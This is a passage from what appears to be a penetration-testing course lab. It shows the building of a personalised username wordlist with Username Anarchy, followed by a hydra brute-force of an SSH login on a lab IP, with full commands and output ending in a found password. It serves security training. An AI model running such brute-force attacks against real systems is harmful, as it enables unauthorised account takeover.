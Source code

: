 We should also consider creating a personalized username wordlist based on the person's available details. For example, the person's username could be `b.gates` or `gates` or `bill`, and many other potential variations. There are several methods to create the list of potential usernames, the most basic of which is simply writing it manually.

One such tool we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), which we can clone from GitHub, as follows:

&#x20; Personalized Wordlists

```shell-session
AbdulrahmanTamim@htb[/htb]$ git clone https://github.com/urbanadventurer/username-anarchy.git

Cloning into 'username-anarchy'...
remote: Enumerating objects: 386, done.
remote: Total 386 (delta 0), reused 0 (delta 0), pack-reused 386
Receiving objects: 100% (386/386), 16.76 MiB | 5.38 MiB/s, done.
Resolving deltas: 100% (127/127), done.
```

This tool has many use cases that we can take advantage of to create advanced lists of potential usernames. However, for our simple use case, we can simply run it and provide the first/last names as arguments, and forward the output into a file, as follows:

Code: bash

```bash
./username-anarchy Bill Gates > bill.txt
```

We should finally have our username and passwords wordlists ready and we could attack the SSH server.



## Service Authentication Brute Forcing

***

### SSH Attack

The command used to attack a login service is fairly straightforward. We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags. Finally, when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped. Our final command should be as follows:

&#x20; Service Authentication Brute Forcing

```shell-session
AbdulrahmanTamim@htb[/htb]$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```
